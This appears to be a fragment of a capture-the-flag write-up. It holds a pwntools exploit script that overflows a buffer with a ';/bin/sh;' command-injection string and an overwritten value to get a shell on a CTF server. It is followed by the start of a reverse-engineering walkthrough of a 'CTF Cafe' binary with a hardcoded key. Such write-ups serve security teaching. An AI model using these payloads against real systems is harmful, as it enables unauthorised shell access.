 ```python
from pwn import *

REMOTE_HOST = "pwn.ctf.uscybergames.com"
REMOTE_PORT = 5000


p = remote(REMOTE_HOST, REMOTE_PORT)


command_payload = b"';/bin/sh;'"                 
padding_timezone = b"A" * (32 - len(command_payload))  
padding_money = b"B" * 4                        
donuts_value = p32(0xCAFEBABE)                   

exploit_payload = command_payload + padding_timezone + padding_money + donuts_value

log.info(f"Sending exploit payload...")
p.sendlineafter(b"> ", exploit_payload)

# Send option 3 to enter maintenance panel
log.info("Triggering admin panel...")
p.sendlineafter(b"> ", b"3")

log.success("Enjoy your shell 🍩")
p.interactive()

```


## CTF Cafe 

We’re given a 64-bit ELF binary named `ctf_cafe`, dynamically linked and **not stripped**—which is great because all symbols are intact for reverse engineering.

![image](https://gist.github.com/user-attachments/assets/2c25e4f1-0565-4964-94c9-9e2b3a065c77)

Solution
Analyzing `main()`, we find:

```python
if (v4 == 9) {
    puts("Oh, so you want the secret sauce recipe? Only if you have our proprietary key!");
    printf("Enter 8-byte hex key: ");
    if (scanf("%lx", &key) == 1) {
        if (key == 0x9BD2C75A49C4EFEB) {
            puts("Congratulations!");
            for (i = 0; i <= 0x20; ++i)
                putchar(secret_sauce[i] ^ size[i % 8]);
        }

```
